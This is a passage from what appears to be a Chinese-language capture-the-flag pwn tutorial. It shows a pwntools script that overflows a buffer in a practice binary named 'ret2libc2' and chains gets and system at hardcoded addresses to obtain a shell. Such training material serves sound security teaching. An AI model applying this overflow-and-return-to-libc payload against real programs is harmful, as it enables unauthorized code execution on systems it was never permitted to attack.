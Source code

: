 [![](assets/1701612384-ac8fc4b9e7c627e7a26ff0f8c249d26f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204327-8b7afd26-167a-1.png)

```plain
from pwn import *

io = process("./ret2libc2")
elf =ELF("./ret2libc2")
#sys_plt_addr = elf.plt["system"]
#print(sys_plt_addr)
#0x8048490
sys_plt_addr = 0x8048490
#buf2_addr = elf.symbols["buf2"]  利用 elf.symbols[]获取 bss 段地址
#print(buf2_addr)
#0x804a080
buf2_addr=0x804a080
#gets_addr=elf.plt["gets"]
#print(gets_addr)
#0x8048460
gets_addr=0x8048460

payload=b'A'*112+p32(gets_addr)+p32(sys_plt_addr)+p32(buf2_addr)+p32(buf2_addr)

io.sendline(payload)
io.interactive()
```

其实用 pwndgb 能更好的看 plt 地址

[![](assets/1701612384-776eda41bdae6cd218cd958a3032a0b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204332-8e7cf4d4-167a-1.png)
